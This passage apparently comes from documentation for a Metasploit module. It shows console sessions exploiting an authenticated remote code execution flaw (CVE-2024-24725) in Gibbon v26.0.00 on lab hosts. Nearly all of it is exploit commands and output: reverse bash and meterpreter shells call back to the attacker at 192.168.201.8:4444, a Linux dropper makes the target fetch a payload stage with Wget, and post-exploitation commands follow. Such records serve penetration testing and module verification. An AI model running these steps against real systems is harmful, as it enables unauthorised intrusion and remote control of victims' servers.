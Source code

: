 ```shell
Server username: SYSTEM
meterpreter > pwd
C:\wamp64\www
meterpreter >
```
### Target 1 - Unix Command `cmd/unix/reverse_bash` session
```shell
msf6 exploit(multi/http/gibbon_auth_rce_cve_2024_24725) > set target 1
target => 1
msf6 exploit(multi/http/gibbon_auth_rce_cve_2024_24725) > exploit

[*] Started reverse TCP handler on 192.168.201.8:4444
[*] Running automatic check ("set AutoCheck false" to disable)
[*] Checking if 192.168.201.44:80 can be exploited.
[+] The target appears to be vulnerable. Gibbon v26.0.00
[*] Executing Unix Command for cmd/unix/reverse_bash
[*] Command shell session 2 opened (192.168.201.8:4444 -> 192.168.201.44:33118) at 2024-04-01 19:51:43 +0000

pwd
/var/www
uname -a
Linux cuckoo 5.15.0-101-generic #111-Ubuntu SMP Tue Mar 5 20:16:58 UTC 2024 x86_64 x86_64 x86_64 GNU/Linux
id
uid=33(www-data) gid=33(www-data) groups=33(www-data),29(audio)
```
### Target 2 - Linux Dropper `linux/x64/meterpreter/reverse_tcp` session
```shell
msf6 exploit(multi/http/gibbon_auth_rce_cve_2024_24725) > set target 2
target => 2
msf6 exploit(multi/http/gibbon_auth_rce_cve_2024_24725) > exploit

[*] Started reverse TCP handler on 192.168.201.8:4444
[*] Running automatic check ("set AutoCheck false" to disable)
[*] Checking if 192.168.201.44:80 can be exploited.
[+] The target appears to be vulnerable. Gibbon v26.0.00
[*] Executing Linux Dropper for linux/x64/meterpreter/reverse_tcp
[*] Using URL: http://192.168.201.8:8080/gn2mFk
[*] Client 192.168.201.44 (Wget/1.21.2) requested /gn2mFk
[*] Sending payload to 192.168.201.44 (Wget/1.21.2)
[*] Sending stage (3045380 bytes) to 192.168.201.44
[*] Meterpreter session 3 opened (192.168.201.8:4444 -> 192.168.201.44:46276) at 2024-04-01 19:57:04 +0000
[*] Command Stager progress - 100.00% done (112/112 bytes)
[*] Server stopped.

meterpreter > sysinfo
Computer     : 192.168.201.44
OS           : Ubuntu 22.04 (Linux 5.15.0-101-generic)
Architecture : x64
BuildTuple   : x86_64-linux-musl
Meterpreter  : x64/linux
meterpreter > getuid
Server username: www-data
meterpreter > exit
```
### Target 3 - Windows Command `cmd/windows/powershell/x64/meterpreter/reverse_tcp` session
```shell
msf6 exploit(multi/http/gibbon_auth_rce_cve_2024_24725) > set target 3
```